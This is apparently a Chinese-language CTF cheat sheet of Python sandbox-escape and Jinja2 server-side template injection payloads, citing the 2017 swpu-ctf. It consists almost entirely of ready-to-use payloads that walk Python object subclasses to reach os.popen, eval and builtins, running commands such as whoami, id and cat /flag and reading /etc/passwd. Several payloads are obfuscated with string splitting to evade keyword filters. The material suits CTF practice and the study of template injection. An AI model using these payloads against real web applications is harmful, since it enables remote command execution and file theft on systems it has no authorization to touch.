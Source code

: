 &gt; 例题：2017 swpu-ctf

```
import timeit
timeit.timeit(&#34;__import__(&#39;os&#39;).system(&#39;dir&#39;)&#34;,number=1)

import platform
print platform.popen(&#39;dir&#39;).read()
```

## 收藏版poc

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;ls  /var/www/html&#34;).read()&#39; )
```

```
object.__subclasses__()[59].__init__.func_globals[&#39;linecache&#39;].__dict__[&#39;o&#39;&#43;&#39;s&#39;].__dict__[&#39;sy&#39;&#43;&#39;stem&#39;](&#39;ls&#39;)
```

```
{{request[&#39;__cl&#39;&#43;&#39;ass__&#39;].__base__.__base__.__base__[&#39;__subcla&#39;&#43;&#39;sses__&#39;]()[60][&#39;__in&#39;&#43;&#39;it__&#39;][&#39;__&#39;&#43;&#39;glo&#39;&#43;&#39;bal&#39;&#43;&#39;s__&#39;][&#39;__bu&#39;&#43;&#39;iltins__&#39;][&#39;ev&#39;&#43;&#39;al&#39;](&#39;__im&#39;&#43;&#39;port__(&#34;os&#34;).po&#39;&#43;&#39;pen(&#34;ca&#34;&#43;&#34;t a.php&#34;).re&#39;&#43;&#39;ad()&#39;)}}
```

```
# 读文件
#读取文件类，&lt;type ‘file’&gt; file位置一般为40，直接调用
{{[].__class__.__base__.__subclasses__()[40](&#39;flag&#39;).read()}} 
{{[].__class__.__bases__[0].__subclasses__()[40](&#39;etc/passwd&#39;).read()}}
{{[].__class__.__bases__[0].__subclasses__()[40](&#39;etc/passwd&#39;).readlines()}}
{{[].__class__.__base__.__subclasses__()[257](&#39;flag&#39;).read()}} (python3)


#直接使用popen命令，python2是非法的，只限于python3
os._wrap_close 类里有popen
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[128].__init__.__globals__[&#39;popen&#39;](&#39;whoami&#39;).read()}}
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen(&#39;whoami&#39;).read()}}


#调用os的popen执行命令
#python2、python3通用
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__[&#39;os&#39;].popen(&#39;ls&#39;).read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__[&#39;os&#39;].popen(&#39;ls /flag&#39;).read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__[&#39;os&#39;].popen(&#39;cat /flag&#39;).read()}}
{{&#39;&#39;.__class__.__base__.__subclasses__()[185].__init__.__globals__[&#39;__builtins__&#39;][&#39;__import__&#39;](&#39;os&#39;).popen(&#39;cat /flag&#39;).read()}}
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__(&#39;os&#39;).popen(&#39;id&#39;).read()}}
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[250].__init__.__globals__[&#39;__builtins__&#39;][&#39;__import__&#39;](&#39;os&#39;).popen(&#39;id&#39;).read()}}
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[250].__init__.__globals__[&#39;os&#39;].popen(&#39;whoami&#39;).read()}}
#python3专属
{{&#34;&#34;.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__(&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
```